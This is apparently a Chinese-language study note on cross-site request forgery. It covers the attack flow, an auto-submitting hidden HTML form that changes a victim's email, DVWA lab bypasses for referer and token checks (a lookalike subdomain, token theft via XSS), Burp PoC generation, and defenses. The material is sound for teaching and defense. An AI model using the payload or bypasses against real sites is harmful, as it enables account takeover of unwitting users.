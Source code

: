# CSRF

跨站请求伪造，攻击者诱导用户执行他们不打算执行的操作

运行攻击者部分规避同源策略

需要用户访问恶意链接


## 攻击原理

**攻击过程**

1. 用户打开浏览器访问受信任站点 A，输入用户名密码登陆网站 A
2. 在用户信息通过验证后，网站 A 产生 Cookie 信息并返回给浏览器，此时用户登陆成功
3. 用户未退出网站 A 之前，在同一浏览器打开一个 Tab 页，访问网站 B
4. 网站 B 上存在一些恶意链接，例如请求或修改网站 A 的资源
5. 由于用户已经通过 A 的验证，并保存 Cookie，导致恶意链接以该用户权限执行（携带 Cookie）


**攻击条件**

1. 一个功能操作，可能是特权操作或对用户数据的特定操作
2. 基于 Cookie 的会话处理，没有其他机制用于跟踪会话或验证用户请求
3. 没有不可预测的请求参数


**例子**

一个网站提供了修改邮箱功能

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=dkfowfsdfijfowi8dk2dkkdow2djjd

email=tom@gmail.com
```

构造恶意页面

```
<html>
<body>
  <from action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="hack@xxmail.com"/>
  </from>
  <script>
    // window.onload
    document.forms[0].submit();
  </script>
</body>
</html>
```

受害者访问恶意页面，自动触发 POST 请求

## 靶机

**dvwa low**


功能

```
http://192.168.119.129:8080/vulnerabilities/csrf/?password_new=abc&password_conf=abc&Change=Change#
```

可以构造恶意网站，转化成短链接发给用户，诱导用户点击


**dvwa medium**

增加了判断 referer 包含本网站域名

绕过方法：使用子域名 www.vulnerable-website.com.hacker1287747.com


**dvwa high**

form 表单设置隐藏 token

绕过方法：

1. 使用 XSS 获取 token
2. 并且修改 cookie 中 security=low
3. 发包


**生成 CSRF POC**

1. 使用 burp 拦截请求
2. 右键 > EngageMent tools > Generate CSRF PoC
3. 调整 option，例如自动提交
4. regenerate


## 防御

防御 CSRF 攻击的最可靠方法是在相关请求中包含 CSRF token


**验证 Referer**

1. 拿到 Referer
2. 分割出域名
3. 根据后缀匹配域名

对于 IE6 可篡改 Referer，则失效

**加入 token**

token 绑定到 session
用过即销毁
token 不存在 cookie 中

**在 HTTP 头中自定义属性并验证**

XHR 加入 authentication header

局限性大
